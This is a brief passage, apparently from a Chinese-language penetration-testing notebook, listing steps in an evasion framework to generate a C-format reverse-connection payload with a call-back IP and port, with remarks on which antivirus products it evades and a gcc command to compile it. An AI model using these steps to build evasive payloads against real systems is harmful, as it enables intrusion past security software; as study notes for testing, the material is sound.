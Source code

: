 	>use 1选择evasion模块
	>list查看可用payload
	>use 7 选择c格式的payload
	>set LHOST/LPORT设置回连IP和端口
	>generate生成
![image](/assets/Pentest_Note/master/img/77.png)

	直接生成的exe可能会被查杀，目前可过360，不能过火绒
	使用minGW-w64编译C文件
	>gcc -o vel.exe veil.c -l ws2_32